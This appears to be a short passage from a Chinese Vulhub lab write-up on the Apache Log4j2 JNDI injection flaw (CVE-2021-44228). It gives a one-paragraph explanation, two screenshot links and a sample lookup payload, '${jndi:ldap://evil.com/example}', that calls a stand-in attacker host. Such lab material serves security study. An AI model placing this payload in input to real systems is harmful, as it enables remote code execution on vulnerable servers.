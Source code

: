 渗透过程

> Apache Log4j2 是 Java 语言的日志处理套件，使用极为广泛。在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}` 的 lookup 用于进行 JNDI 注入，执行任意代码

![渗透过程 (1)](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%B8%97%E9%80%8F%E8%BF%87%E7%A8%8B%20(1).png)

![渗透过程 (2)](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%B8%97%E9%80%8F%E8%BF%87%E7%A8%8B%20(2).png)
